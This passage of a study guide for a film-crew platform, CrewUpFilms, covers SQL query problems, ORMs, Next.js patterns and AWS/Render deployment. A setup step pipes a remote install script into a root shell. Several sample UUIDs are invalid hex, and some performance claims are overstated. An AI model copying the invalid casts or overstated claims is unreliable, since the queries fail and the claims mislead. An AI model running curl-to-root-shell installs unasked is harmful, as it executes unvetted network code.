- **Explanation**: Simple group by query returning application counts for pending, accepted, declined statuses for a project dashboard.
- **Index Recommendation**: `CREATE INDEX idx_app_proj_status ON applications(project_id, status);`
- **EXPLAIN Reasoning**: Index-only scan satisfies the query entirely from memory.

#### Problem 10: Find users who have NOT applied to any project
- **Query**:
```sql
SELECT u.id, u.name, u.email
FROM users u
LEFT JOIN applications a ON u.id = a.applicant_id
WHERE a.id IS NULL;
```
- **Explanation**: Classic anti-join pattern. Left joins `applications` and selects rows where the foreign key evaluates to `NULL`.
- **Index Recommendation**: `CREATE INDEX idx_applications_applicant_id ON applications(applicant_id);`
- **EXPLAIN Reasoning**: Planner performs a Hash Anti-Join or Nested Loop Anti-Join, skipping users with matches immediately.

#### Problem 11: Get the second-highest risk score project
- **Query**:
```sql
SELECT id, title, risk_score, moderation_status
FROM projects
WHERE is_draft = false
ORDER BY risk_score DESC
OFFSET 1
LIMIT 1;
```
- **Explanation**: Orders projects descending by risk score, skips the highest record using `OFFSET 1`, and retrieves the next record.
- **Index Recommendation**: `CREATE INDEX idx_projects_risk ON projects(risk_score DESC) WHERE is_draft = false;`
- **EXPLAIN Reasoning**: B-tree index traversed directly to find the 2nd record in $O(\log N)$ time.

#### Problem 12: Find all team members of a project with their roles
- **Query**:
```sql
SELECT 
  tm.role,
  tm.joined_at,
  u.id AS user_id,
  u.name,
  u.profile_image,
  p.experience_level
FROM team_members tm
JOIN users u ON tm.user_id = u.id
LEFT JOIN profiles p ON u.id = p.user_id
WHERE tm.project_id = 'p3333333-3333-3333-3333-333333333333'::uuid
ORDER BY tm.joined_at ASC;
```
- **Explanation**: Joins `team_members` to `users` and `profiles` for a specific project ID.
- **Index Recommendation**: `CREATE INDEX idx_team_members_proj ON team_members(project_id);`
- **EXPLAIN Reasoning**: Index scan on `project_id` pulls team roster in milliseconds.

#### Problem 13: Calculate average number of applications per project
- **Query**:
```sql
WITH app_counts AS (
  SELECT p.id, COUNT(a.id) AS total_apps
  FROM projects p
  LEFT JOIN applications a ON p.id = a.project_id
  GROUP BY p.id
)
SELECT 
  ROUND(AVG(total_apps), 2) AS avg_applications_per_project
FROM app_counts;
```
- **Explanation**: Aggregates application count per project in a CTE, then calculates the mathematical average using `AVG()`.
- **Index Recommendation**: `CREATE INDEX idx_applications_proj ON applications(project_id);`
- **EXPLAIN Reasoning**: Fast HashAggregate on `project_id` feeds the scalar average calculation.

#### Problem 14: Get messages in a conversation with sender names, paginated
- **Query**:
```sql
SELECT 
  m.id,
  m.text,
  m.created_at,
  u.id AS sender_id,
  u.name AS sender_name,
  u.profile_image
FROM messages m
JOIN users u ON m.sender_id = u.id
WHERE m.conversation_id = 'c4444444-4444-4444-4444-444444444444'::uuid
ORDER BY m.created_at DESC
LIMIT 20 OFFSET 0;
```
- **Explanation**: Retrieves 20 most recent messages in a chat conversation with sender identity info.
- **Index Recommendation**: `CREATE INDEX idx_messages_conv_created ON messages(conversation_id, created_at DESC);`
- **EXPLAIN Reasoning**: Composite index allows backward index scan to satisfy both the WHERE filter and ORDER BY without an external sort.

#### Problem 15: Find projects open for >30 days with 0 applications
- **Query**:
```sql
SELECT 
  p.id, 
  p.title, 
  p.created_at, 
  u.name AS creator_name
FROM projects p
JOIN users u ON p.created_by = u.id
LEFT JOIN applications a ON p.id = a.project_id
WHERE p.status = 'open'
  AND p.created_at < NOW() - INTERVAL '30 days'
  AND a.id IS NULL;
```
- **Explanation**: Identifies stagnant listings using a `LEFT JOIN ... WHERE a.id IS NULL` anti-join pattern combined with a date interval filter.
- **Index Recommendation**: `CREATE INDEX idx_projects_stagnant ON projects(status, created_at) WHERE status = 'open';`
- **EXPLAIN Reasoning**: Limits scan to open projects older than 30 days before executing the Hash Anti-Join.

#### Problem 16: Top creators by completed projects in the last 90 days
- **Query**:
```sql
SELECT 
  u.id, 
  u.name, 
  u.username,
  COUNT(p.id) AS completed_projects
FROM users u
JOIN projects p ON u.id = p.created_by
WHERE p.status = 'completed'
  AND p.updated_at >= NOW() - INTERVAL '90 days'
GROUP BY u.id, u.name, u.username
ORDER BY completed_projects DESC
LIMIT 10;
```
- **Explanation**: Aggregates finished film projects within a 90-day window to build a community leaderboard.
- **Index Recommendation**: `CREATE INDEX idx_projects_completed ON projects(status, updated_at, created_by);`
- **EXPLAIN Reasoning**: Index scan on status + updated_at feeds directly into HashAggregate.

#### Problem 17: Find duplicate applications (safety audit)
- **Query**:
```sql
SELECT 
  project_id, 
  applicant_id, 
  role_applying_for, 
  COUNT(*) AS duplicate_count
FROM applications
GROUP BY project_id, applicant_id, role_applying_for
HAVING COUNT(*) > 1;
```
- **Explanation**: Detects database inconsistencies if the unique constraint was disabled or bypassed during migrations.
- **Index Recommendation**: `CREATE UNIQUE INDEX uq_app_proj_user_role ON applications(project_id, applicant_id, role_applying_for);`
- **EXPLAIN Reasoning**: If the unique index exists, this query executes instantly returning zero rows.

#### Problem 18: Get a user's entire platform activity summary
- **Query**:
```sql
SELECT 
  u.id,
  u.name,
  (SELECT COUNT(*) FROM projects WHERE created_by = u.id) AS projects_created,
  (SELECT COUNT(*) FROM team_members WHERE user_id = u.id) AS projects_joined,
  (SELECT COUNT(*) FROM applications WHERE applicant_id = u.id) AS applications_sent
FROM users u
WHERE u.id = 'u5555555-5555-5555-5555-555555555555'::uuid;
```
- **Explanation**: Uses scalar subqueries in the SELECT clause to compute summary metrics across distinct unrelated tables for a profile dashboard.
- **Index Recommendation**: Foreign key indexes on `projects(created_by)`, `team_members(user_id)`, and `applications(applicant_id)`.
- **EXPLAIN Reasoning**: Planner runs three fast index-only count lookups on the target UUID ($O(1)$ operations).

#### Problem 19: Window Function: Rank projects by applications within project_type
- **Query**:
```sql
SELECT 
  p.id,
  p.title,
  p.project_type,
  COUNT(a.id) AS application_count,
  DENSE_RANK() OVER (
    PARTITION BY p.project_type 
    ORDER BY COUNT(a.id) DESC
  ) AS type_rank
FROM projects p
LEFT JOIN applications a ON p.id = a.project_id
GROUP BY p.id, p.title, p.project_type;
```
- **Explanation**: Uses the `DENSE_RANK()` window function partitioned by `project_type` to calculate category-specific popularity rankings.
- **Index Recommendation**: `CREATE INDEX idx_proj_type ON projects(project_type);`
- **EXPLAIN Reasoning**: EXPLAIN reveals a WindowAgg node evaluated immediately following the GroupAggregate.

#### Problem 20: CTE: Find shortest follow chain between two users (Graph Traversal)
- **Query**:
```sql
WITH RECURSIVE follow_chain AS (
  -- Base case: users followed directly by user A
  SELECT 
    follower_id, 
    following_id, 
    1 AS depth, 
    ARRAY[follower_id, following_id] AS path
  FROM follows
  WHERE follower_id = 'u1111111-1111-1111-1111-111111111111'::uuid

  UNION ALL

  -- Recursive step: next hops
  SELECT 
    f.follower_id, 
    f.following_id, 
    fc.depth + 1, 
    fc.path || f.following_id
  FROM follows f
  JOIN follow_chain fc ON f.follower_id = fc.following_id
  WHERE NOT (f.following_id = ANY(fc.path)) -- prevent cycles
    AND fc.depth < 4                         -- limit search depth
)
SELECT depth, path
FROM follow_chain
WHERE following_id = 'u9999999-9999-9999-9999-999999999999'::uuid
ORDER BY depth ASC
LIMIT 1;
```
- **Explanation**: Implements Breadth-First Search (BFS) graph traversal in pure SQL using a recursive CTE, tracking visited nodes in an array to avoid circular loops.
- **Index Recommendation**: `CREATE INDEX idx_follows_recursive ON follows(follower_id, following_id);`
- **EXPLAIN Reasoning**: Recursive Union utilizes the index on `follower_id` for every recursive hop.

#### Problem 21: Transaction: Accept application and add to team_members atomically
- **Query**:
```sql
BEGIN;

-- 1. Lock and update application status
UPDATE applications
SET status = 'accepted', reviewed_at = NOW(), review_note = 'Welcome to the production crew!'
WHERE id = 'app12345-0000-0000-0000-000000000000'::uuid
  AND status = 'pending'
RETURNING project_id, applicant_id, role_applying_for;

-- 2. Insert into team_members table
INSERT INTO team_members (project_id, user_id, role, joined_at)
VALUES (
  'p3333333-3333-3333-3333-333333333333'::uuid, 
  'u5555555-5555-5555-5555-555555555555'::uuid, 
  'Cinematographer', 
  NOW()
);

-- 3. Emit notification record
INSERT INTO notifications (recipient_id, title, message, type)
VALUES (
  'u5555555-5555-5555-5555-555555555555'::uuid, 
  'Application Accepted!', 
  'You have been added to the team roster for Cinematographer.', 
  'application_accepted'
);

COMMIT;
```
- **Explanation**: Wraps application acceptance, team insertion, and notification emission in an ACID transaction (`BEGIN ... COMMIT`). If any statement fails, the entire transaction rolls back (`ROLLBACK`), preventing orphaned team members.
- **Difficulty**: Medium | **Priority**: P1

#### Problem 22: Optimal Index for Messages Pagination
- **Problem Statement**: What is the single most optimal composite index for:
`SELECT * FROM messages WHERE conversation_id = $1 ORDER BY created_at DESC LIMIT 20;`?
- **Solution**:
```sql
CREATE INDEX idx_messages_conv_created ON messages (conversation_id, created_at DESC);
```
- **Explanation**: A composite B-tree index ordered by `(conversation_id, created_at DESC)` allows PostgreSQL to seek directly to the matching `conversation_id`, then traverse the index leaf nodes backward by `created_at` in physical order. It returns the top 20 rows immediately, completely eliminating an expensive in-memory sort (`Sort Method: top-N heapsort`).

#### Problem 23: Subquery: Projects where creator has more followers than average
- **Query**:
```sql
WITH creator_follower_counts AS (
  SELECT created_by, COUNT(f.follower_id) AS followers
  FROM projects p
  LEFT JOIN follows f ON p.created_by = f.following_id
  GROUP BY created_by
),
avg_followers AS (
  SELECT AVG(followers) AS avg_count FROM creator_follower_counts
)
SELECT p.id, p.title, p.created_by, cfc.followers
FROM projects p
JOIN creator_follower_counts cfc ON p.created_by = cfc.created_by
CROSS JOIN avg_followers af
WHERE cfc.followers > af.avg_count;
```
- **Explanation**: Calculates follower counts per creator, computes the global average follower count across creators, and filters projects whose creator exceeds that average.
- **Index Recommendation**: `CREATE INDEX idx_follows_following_id ON follows(following_id);`
- **EXPLAIN Reasoning**: Eliminates repetitive subquery calculations by computing the average once via CTE.

#### Problem 24: JOIN Types: INNER vs LEFT vs RIGHT vs FULL OUTER
- **Model Answer**:
Let's consider `conversations` (table A) and `messages` (table B):
- **INNER JOIN**: Returns only rows with a match in both tables (conversations that have at least one message).
```sql
SELECT c.id, m.text FROM conversations c INNER JOIN messages m ON c.id = m.conversation_id;
```
- **LEFT JOIN**: Returns all rows from table A (conversations), plus matched messages from table B. If a conversation has no messages, `m.text` is `NULL`.
```sql
SELECT c.id, m.text FROM conversations c LEFT JOIN messages m ON c.id = m.conversation_id;
```
- **RIGHT JOIN**: Returns all rows from table B (messages), plus matched conversations from table A. (If a message has no conversation, conversation fields are `NULL`).
- **FULL OUTER JOIN**: Returns all rows from both tables. Unmatched rows on either side are padded with `NULL`s.

#### Problem 25: Upsert: Insert follow or ignore if exists (ON CONFLICT)
- **Query**:
```sql
INSERT INTO follows (id, follower_id, following_id, created_at)
VALUES (
  gen_random_uuid(),
  'u1111111-1111-1111-1111-111111111111'::uuid,
  'u2222222-2222-2222-2222-222222222222'::uuid,
  NOW()
)
ON CONFLICT (follower_id, following_id) 
DO NOTHING;
```
- **Explanation**: Uses PostgreSQL's `ON CONFLICT` clause targeting the unique composite constraint `(follower_id, following_id)`. If the row already exists, the database ignores the duplicate attempt without raising an exception, achieving idempotency.

---

### Database Theory: Normalization, Isolation Levels, and Migration

#### Relational Normalization (1NF, 2NF, 3NF)
1. **First Normal Form (1NF)**: Each table cell must contain a single atomic value, and each record must be unique (Primary Key). In MongoDB, CrewUpFilms stored roles as an array `requiredRoles: ["Director", "Editor"]`. In PostgreSQL 1NF, this must be separated into a distinct table `project_required_roles` where each row represents a single role.
2. **Second Normal Form (2NF)**: Must satisfy 1NF, and all non-key columns must depend on the *entire* primary key (no partial functional dependencies). In a composite key table like `team_members(project_id, user_id, role)`, storing `user_name` inside `team_members` violates 2NF because `name` depends only on `user_id`, not `project_id`.
3. **Third Normal Form (3NF)**: Must satisfy 2NF, and no non-key column may depend on another non-key column (no transitive dependencies). In `projects`, storing `creator_email` violates 3NF because `creator_email` depends on `created_by` (which is a user), not directly on `project.id`.

#### When to Denormalize
Denormalization is intentionally introducing redundancy to optimize read-heavy workloads:
- **Fast Read Performance**: In high-traffic feeds, joining 6 tables degrades latency. Storing `follower_count` directly on `users` avoids running `COUNT(*)` across millions of rows on every profile view.
- **Historic Snapshots**: In `applications`, capturing a snapshot of the applicant's hourly rate or experience level at the time of submission ensures historical records remain accurate even if the user later edits their profile.

#### Transaction Isolation Levels in PostgreSQL
1. **READ UNCOMMITTED**: In PostgreSQL, treated identically to READ COMMITTED. (PostgreSQL does not allow dirty reads).
2. **READ COMMITTED (Default)**: A query only sees data committed before the query began. Prevents Dirty Reads. *Vulnerable to Non-Repeatable Reads* (another transaction updates a row between two SELECTs in the same transaction) and *Phantom Reads*.
3. **REPEATABLE READ**: All queries within the transaction see a consistent snapshot taken at the start of the transaction. Prevents Dirty Reads and Non-Repeatable Reads. If a concurrent transaction commits updates to rows being modified, PostgreSQL raises a serialization failure: `ERROR: could not serialize access due to concurrent update`.
4. **SERIALIZABLE**: The strictest isolation level. Guarantees transactions execute as if run serially one after another, completely eliminating all concurrency anomalies (including write skew).

---

## C6. Object-Relational Mappers (ORMs: Prisma / Sequelize)

### Q70: What is an ORM? Benefits and Drawbacks
- **Model Answer**: An Object-Relational Mapper (ORM) is an abstraction layer that maps database tables to object-oriented programming entities in code.
- **Benefits**:
  1. *Developer Velocity*: Eliminates repetitive boilerplate SQL queries.
  2. *Type Safety*: Modern ORMs (like Prisma) automatically generate TypeScript types matching database schemas.
  3. *Automated Migrations*: Provides structured CLI tools to track, apply, and rollback database schema changes.
  4. *Dialect Abstraction*: Allows switching between PostgreSQL, MySQL, and SQLite without rewriting business logic.
- **Drawbacks**:
  1. *Performance Overhead*: Auto-generated queries can be inefficient.
  2. *The N+1 Query Problem*: Naive relation fetching triggers cascading queries.
  3. *Complex Query Limitations*: Deep analytical queries and CTEs often require raw SQL anyway.
- **Difficulty**: Easy | **Priority**: P1

### Q71: Prisma vs Sequelize vs TypeORM
- **Model Answer**:
- **Prisma**: Next-generation schema-first ORM. Defines models in a clean `schema.prisma` file, auto-generates a lightweight, strictly typed query client (`PrismaClient`), and uses an efficient Rust query engine under the hood. Currently the industry standard for TypeScript/Node.js.
- **Sequelize**: Traditional JavaScript-first ORM using class-based or `define()` models. Highly mature with extensive plugin ecosystems, but lacks native TypeScript type safety and has complex association syntax.
- **TypeORM**: Modeled after Hibernate (Java), relying heavily on experimental TypeScript decorators (`@Entity`, `@Column`). Strong for OOP enterprise patterns, but maintenance has slowed compared to Prisma.
- **Difficulty**: Medium | **Priority**: P2

### Q72: Prisma Schema for CrewUpFilms User and Project
- **Model Answer**:
```prisma
datasource db {
  provider = "postgresql"
  url      = env("DATABASE_URL")
}

generator client {
  provider = "prisma-client-js"
}

model User {
  id               String        @id @default(uuid())
  uid              String        @unique
  name             String
  username         String        @unique
  email            String        @unique
  passwordHash     String?       @map("password_hash")
  googleId         String?       @unique @map("google_id")
  role             String        @default("other")
  isActive         Boolean       @default(true) @map("is_active")
  isEmailVerified  Boolean       @default(false) @map("is_email_verified")
  createdAt        DateTime      @default(now()) @map("created_at")
  updatedAt        DateTime      @updatedAt @map("updated_at")

  // Relationships
  profile          Profile?
  projectsCreated  Project[]     @relation("ProjectsCreated")
  applications     Application[]

  @@map("users")
}

model Project {
  id               String        @id @default(uuid())
  title            String
  description      String
  projectType      String        @map("project_type")
  isPaid           Boolean       @default(false) @map("is_paid")
  status           String        @default("open")
  createdById      String        @map("created_by")
  riskScore        Int           @default(0) @map("risk_score")
  createdAt        DateTime      @default(now()) @map("created_at")

  // Relationships
  creator          User          @relation("ProjectsCreated", fields: [createdById], references: [id])
  applications     Application[]

  @@index([status, createdAt])
  @@map("projects")
}
```
- **Difficulty**: Medium | **Priority**: P1

### Q73: Prisma Migration for Adding an Index
- **Model Answer**:
1. In `schema.prisma`, add the index attribute to the target model:
```prisma
model Message {
  id             String       @id @default(uuid())
  conversationId String       @map("conversation_id")
  createdAt      DateTime     @default(now()) @map("created_at")

  @@index([conversationId, createdAt(sort: Desc)])
}
```
2. Run the migration command in terminal:
```bash
npx prisma migrate dev --name add_conv_created_idx_to_messages
```
3. Prisma generates a SQL migration file in `prisma/migrations/...` containing:
```sql
CREATE INDEX "messages_conversation_id_created_at_idx" ON "messages"("conversation_id", "created_at" DESC);
```
and applies it directly to the database while updating the PrismaClient.
- **Difficulty**: Medium | **Priority**: P1

### Q74: Mongoose vs Prisma: Architectural Differences
- **Model Answer**:
- **Data Model**: Mongoose models BSON documents in MongoDB (NoSQL) with dynamic schema validation. Prisma models relational tables (PostgreSQL/MySQL) with strict relational schemas.
- **Type Generation**: Mongoose requires manual TypeScript interface definitions or complex schema generics. Prisma automatically generates end-to-end TypeScript types directly from the schema file.
- **Execution Engine**: Mongoose runs entirely in JavaScript. Prisma uses a compiled Rust binary query engine that optimizes SQL AST generation before sending queries over database connection pools.
- **Difficulty**: Medium | **Priority**: P2

### Q75: The N+1 Query Problem (CrewUpFilms Recommendation Engine Example)
- **Model Answer**: The N+1 query problem occurs when an application executes 1 initial query to fetch $N$ parent records, followed by $N$ separate queries to fetch related child records.
*In CrewUpFilms*: If the recommendation engine fetches 20 projects (`SELECT * FROM projects LIMIT 20;`), and then loops through each project to fetch creator profile details (`await User.findById(p.createdBy)`), it fires $1 + 20 = 21$ queries.
*Solution in SQL / ORM*:
- In SQL: Use a single `JOIN` (`SELECT * FROM projects p JOIN users u ON p.created_by = u.id`).
- In Prisma: Use eager relation loading with `include`:
```javascript
const projects = await prisma.project.findMany({
  take: 20,
  include: { creator: { select: { name: true, profileImage: true } } }
});
```
Prisma optimizes this into a single query or two batch queries (`WHERE id IN (...)`).
- **Difficulty**: Hard | **Priority**: P1

### Q76: Lazy Loading vs Eager Loading
- **Model Answer**:
- **Eager Loading**: Fetches the main entity and all requested related entities simultaneously in the initial database round-trip (e.g., using `JOIN` in SQL or `populate()` in Mongoose / `include` in Prisma). Preferred when child data is known to be required immediately by the view or API response.
- **Lazy Loading**: Only fetches child data on-demand when the property is accessed in code. *Risk*: Can unintentionally cause severe N+1 query performance degradation inside loops.
- **Difficulty**: Easy | **Priority**: P2

### Q77: Executing Raw SQL in Prisma and Sequelize
- **Model Answer**: When complex queries exceed ORM abstraction capabilities:
- **In Prisma**:
```javascript
const result = await prisma.$queryRaw`
  SELECT project_type, COUNT(*) as count 
  FROM projects 
  WHERE risk_score < ${50} 
  GROUP BY project_type;
`;
```
*(Prisma automatically parameterizes template literals to protect against SQL injection).*
- **In Sequelize**:
```javascript
const [results, metadata] = await sequelize.query(
  'SELECT * FROM projects WHERE status = :status',
  { replacements: { status: 'open' }, type: QueryTypes.SELECT }
);
```
- **Difficulty**: Medium | **Priority**: P2

---

## C7. React Integration and Next.js Basics

### Q78: Explain the `useAuth` Hook and React Context Pattern
- **Model Answer**: The `useAuth` hook wraps React's Context API (`createContext`, `useContext`) to supply global user authentication state throughout the Next.js component tree without "prop drilling". An `AuthProvider` component wraps the application root. On initial mount (`useEffect`), it reads the JWT from `localStorage`, calls `/api/auth/me` to validate the session, and populates `{ user, token, loading, isAuthenticated, login, logout }`. Any child component (e.g., Navbar, ProjectCard) calls `const { user, isAuthenticated } = useAuth()` to conditionally render UI elements like user avatars or action buttons.
- **Difficulty**: Easy | **Priority**: P1

### Q79: API Axios Interceptor for 401 Handling and UX Impact
- **Model Answer**: In CrewUpFilms, an Axios response interceptor intercepts all outbound HTTP responses:
```javascript
api.interceptors.response.use(
  (response) => response,
  (error) => {
    if (error.response?.status === 401) {
      localStorage.removeItem('token');
      localStorage.removeItem('user');
      if (typeof window !== 'undefined' && !window.location.pathname.includes('/login')) {
        window.location.href = '/login?expired=true';
      }
    }
    return Promise.reject(error);
  }
);
```
*UX Impact*: If a user's 7-day token expires while browsing, this prevents broken UI states or blank screens; it cleanly wipes stale credentials and redirects the user to `/login` with an informational toast.
- **Difficulty**: Medium | **Priority**: P1

### Q80: Launch Gate Middleware in Next.js (`middleware.js`)
- **Model Answer**: Next.js 14 Edge Middleware (`middleware.js`) runs before a request is completed, intercepting traffic at the edge:
```javascript
import { NextResponse } from 'next/server';

export function middleware(request) {
  const isLaunched = process.env.NEXT_PUBLIC_PLATFORM_LAUNCHED === 'true';
  const { pathname } = request.nextUrl;

  if (!isLaunched && !pathname.startsWith('/waitlist') && !pathname.startsWith('/api')) {
    return NextResponse.redirect(new URL('/waitlist', request.url));
  }
  return NextResponse.next();
}

export const config = {
  matcher: ['/((?!_next/static|_next/image|favicon.ico).*)'],
};
```
This serves as a platform launch gate, redirecting all incoming public traffic to `/waitlist` prior to official release.
- **Difficulty**: Medium | **Priority**: P2

### Q81: SSR vs CSR vs SSG in CrewUpFilms
- **Model Answer**:
- **CSR (Client-Side Rendering)**: Used for protected, interactive dashboards (`/dashboard`, `/messages`, `/projects/create`). Rendered in the browser using client React hooks (`useEffect`, `useState`).
- **SSR (Server-Side Rendering)**: Renders HTML dynamically per request on the server. Ideal for public film listing pages (`/projects/:id`) where SEO metadata and dynamic OpenGraph tags must be generated on the fly.
- **SSG (Static Site Generation)**: Pre-renders pages at build time. Ideal for static, unchanging content like `/about`, `/terms`, and `/privacy-policy`.
- **Difficulty**: Easy | **Priority**: P1

### Q82: Handling CORS Errors Between Next.js and Express
- **Model Answer**: CORS errors occur when the Next.js client (`localhost:3000` or `crewupfilms.com`) makes browser XMLHttpRequests to the Express backend (`api.crewupfilms.com`) without appropriate response headers. Solutions:
1. **Express Backend**: Ensure `CLIENT_URL` includes the exact frontend domain and `app.use(cors({ origin: corsOrigin, credentials: true }))` is configured before any routes.
2. **Next.js Rewrites**: Configure Next.js as a reverse proxy in `next.config.js`:
```javascript
async rewrites() {
  return [{ source: '/api/:path*', destination: 'http://localhost:5001/api/:path*' }];
}
```
This routes API requests through the same origin, completely avoiding CORS checks during local development.
- **Difficulty**: Medium | **Priority**: P1

### Q83: Adding Pagination to the Projects List Page
- **Model Answer**:
```javascript
export default function ProjectsList() {
  const [projects, setProjects] = useState([]);
  const [page, setPage] = useState(1);
  const [totalPages, setTotalPages] = useState(1);
  const [loading, setLoading] = useState(false);

  useEffect(() => {
    setLoading(true);
    api.get(`/api/projects?page=${page}&limit=9`)
      .then(res => {
        setProjects(res.data.projects);
        setTotalPages(res.data.totalPages);
      })
      .finally(() => setLoading(false));
  }, [page]);

  return (
    <div>
      {loading ? <Spinner /> : <ProjectGrid projects={projects} />}
      <div className="flex gap-2 justify-center mt-6">
        <button disabled={page === 1} onClick={() => setPage(p => p - 1)}>Prev</button>
        <span>Page {page} of {totalPages}</span>
        <button disabled={page >= totalPages} onClick={() => setPage(p => p + 1)}>Next</button>
      </div>
    </div>
  );
}
```
- **Difficulty**: Easy | **Priority**: P2

### Q84: Frontend File Upload Implementation
- **Model Answer**: To handle file uploads from the frontend:
```javascript
const handleUpload = async (e) => {
  const file = e.target.files[0];
  const formData = new FormData();
  formData.append('media', file);

  await api.post('/api/upload', formData, {
    headers: { 'Content-Type': 'multipart/form-data' },
    onUploadProgress: (progressEvent) => {
      const percentCompleted = Math.round((progressEvent.loaded * 100) / progressEvent.total);
      setUploadProgress(percentCompleted);
    }
  });
};
```
Axios automatically sets the multipart boundary header.
- **Difficulty**: Medium | **Priority**: P2

### Q85: What is Hydration in Next.js?
- **Model Answer**: Hydration is the process where React in the client browser takes over server-rendered HTML. When the server renders a page, it sends a static HTML document for fast initial paint. React then downloads the JavaScript bundle, parses the DOM, attaches event listeners (like `onClick`), and initializes component state. A "Hydration Mismatch Error" occurs if the client render produces a different initial DOM tree than the server HTML (e.g., rendering `new Date().toLocaleTimeString()` or checking `localStorage` during initial render).
- **Difficulty**: Medium | **Priority**: P2

### Q86: The `'use client'` Directive in Next.js 14 App Router
- **Model Answer**: In Next.js 14 App Router, all components inside the `app/` directory are React Server Components (RSC) by default. RSCs render exclusively on the server and do not ship JavaScript to the browser. Adding `'use client'` at the very top of a file designates it as a Client Component, allowing it to use client-side state hooks (`useState`, `useEffect`), event handlers (`onClick`), browser APIs (`localStorage`), and custom hooks like `useAuth()`.
- **Difficulty**: Easy | **Priority**: P1

### Q87: Next.js 14 Server Actions vs Express REST API
- **Model Answer**:
- **Next.js Server Actions**: Asynchronous functions executed directly on the server, invoked seamlessly from client components without writing explicit API route controllers or managing manual fetch endpoints. Excellent for simple form submissions within monolithic Next.js applications.
- **Express REST API**: A dedicated, decoupled backend service. Superior for CrewUpFilms because it decouples backend business logic from the frontend, supports diverse clients (mobile apps, external partner integrations), provides centralized rate limiting, and hosts persistent WebSockets (Socket.io).
- **Difficulty**: Medium | **Priority**: P2


---

## C8. Cloud Infrastructure: AWS, Render, and Hostinger

### Q88: Deploying Express on AWS EC2: Complete Step-by-Step Procedure
- **Model Answer**:
1. **Provision EC2 Instance**: Launch an `Ubuntu 22.04 LTS` instance (`t3.small`), attach an SSH Key Pair, and configure an AWS Security Group opening ports 22 (SSH), 80 (HTTP), and 443 (HTTPS).
2. **Connect via SSH**:
```bash
ssh -i "crewup-key.pem" ubuntu@<ec2-public-ip>
```
3. **Install Dependencies**:
```bash
sudo apt update && sudo apt upgrade -y
curl -fsSL https://deb.nodesource.com/setup_20.x | sudo -E bash -
sudo apt install -y nodejs git nginx
sudo npm install -g pm2
```
4. **Clone Repository & Install**:
```bash
git clone https://github.com/your-org/crewupfilms.git
cd crewupfilms/server
npm ci --omit=dev
```
5. **Configure Environment Variables**:
```bash
nano .env  # Paste production JWT_SECRET, MONGO_URI, CLIENT_URL, etc.
```
6. **Start Application with PM2**:
```bash
pm2 start src/server.js --name "crewup-api" -i max
pm2 startup
pm2 save
```
7. **Configure Nginx as Reverse Proxy**: Edit `/etc/nginx/sites-available/default`:
```nginx
server {
    listen 80;
    server_name api.crewupfilms.com;

    location / {
        proxy_pass http://localhost:5001;
        proxy_http_version 1.1;
        proxy_set_header Upgrade $http_upgrade;
        proxy_set_header Connection 'upgrade';
        proxy_set_header Host $host;
        proxy_cache_bypass $http_upgrade;
    }
}
```
`sudo nginx -t && sudo systemctl restart nginx`
8. **Provision Free SSL via Let's Encrypt**:
```bash
sudo apt install certbot python3-certbot-nginx -y
sudo certbot --nginx -d api.crewupfilms.com
```
- **Difficulty**: Hard | **Priority**: P1

### Q89: AWS RDS vs MongoDB Atlas
- **Model Answer**:
- **AWS RDS (Relational Database Service)**: A managed relational database engine supporting PostgreSQL, MySQL, and MariaDB. It manages automated point-in-time backups, multi-AZ high-availability failover, security patches, and read replicas within your AWS Virtual Private Cloud (VPC). It connects directly to EC2 instances over private subnets with near-zero latency.
- **MongoDB Atlas**: A fully managed cloud NoSQL database service run by MongoDB Inc. Provides automated document sharding, continuous backups, Atlas Search (Lucene-based), and built-in metric dashboards. While Atlas can peer with AWS VPCs, RDS offers deeper native integration with AWS IAM, CloudWatch, and AWS CDK.
- **Difficulty**: Medium | **Priority**: P1

### Q90: AWS S3 for Profile Image Uploads in CrewUpFilms
- **Model Answer**: Instead of handling base64 strings in MongoDB:
1. Create an S3 Bucket: `crewup-media-production` with public access blocked.
2. The client requests an upload pre-signed URL from Express: `GET /api/media/presigned-url?filename=avatar.jpg`.
3. The server validates the user JWT and calls AWS SDK `getSignedUrlPromise('putObject', { Bucket: 'crewup-media-production', Key: 'avatars/' + userId + '.jpg', Expires: 300, ContentType: 'image/jpeg' })`.
4. The frontend receives the secure pre-signed URL and issues a direct `PUT` upload from the browser to AWS S3.
5. Once complete, the frontend updates the user profile with the CloudFront CDN URL (`https://cdn.crewupfilms.com/avatars/${userId}.jpg`).
This completely offloads heavy binary traffic from Express.
- **Difficulty**: Hard | **Priority**: P1

### Q91: AWS IAM (Identity and Access Management) & Least Privilege
- **Model Answer**: The Principle of Least Privilege states that any entity (user, service, or server) should possess only the bare minimum permissions necessary to perform its specific task.
*In CrewUpFilms*: Rather than using root credentials or admin keys, we create an IAM Role for our EC2 instance:
```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Effect": "Allow",
      "Action": ["s3:PutObject", "s3:GetObject"],
      "Resource": "arn:aws:s3:::crewup-media-production/*"
    }
  ]
}
```
We attach this role to the EC2 instance metadata service, allowing the Node app to authenticate with AWS SDK without storing any hardcoded access keys in `.env`.
- **Difficulty**: Medium | **Priority**: P1

### Q92: AWS CloudWatch for Node.js Monitoring
- **Model Answer**: AWS CloudWatch provides real-time monitoring and log aggregation.
- **Log Streaming**: Install the CloudWatch Unified Agent on the EC2 server or use `winston-cloudwatch` in Express to stream Winston error logs directly to a CloudWatch Log Group (`/crewup/production/api`).
- **Alarms**: Configure CloudWatch Alarms to trigger SNS notifications (SMS/Email) if the HTTP 5xx error rate exceeds 2% over a 5-minute window or if EC2 CPU Utilization exceeds 85%.
- **Difficulty**: Medium | **Priority**: P2

### Q93: AWS VPC, Security Groups, and Database Isolation
- **Model Answer**: A Virtual Private Cloud (VPC) is an isolated virtual network within AWS.
- **Subnet Architecture**: We configure Public Subnets (containing our ALB and NAT Gateway) and Private Subnets (containing EC2 Node servers and RDS PostgreSQL).
- **Security Groups**: Virtual firewalls controlling traffic. The PostgreSQL RDS security group allows inbound traffic on port 5432 *strictly* from the EC2 Security Group ID (`sg-xxxx`), completely blocking public internet access. Exposing database ports (27017 for MongoDB or 5432 for Postgres) to `0.0.0.0/0` invites immediate automated brute-force attacks and ransomware bots.
- **Difficulty**: Hard | **Priority**: P1

### Q94: Deploying CrewUpFilms Server to Render
- **Model Answer**:
1. Connect your GitHub repository to Render.
2. Select **New Web Service** and point to the `server` directory.
3. Choose Environment: **Node**.
4. Set Build Command: `npm install`.
5. Set Start Command: `node src/server.js`.
6. Add Environment Variables: `PORT=5001`, `NODE_ENV=production`, `MONGO_URI`, `JWT_SECRET`, `CLIENT_URL`.
7. Select Instance Type: Starter or Standard.
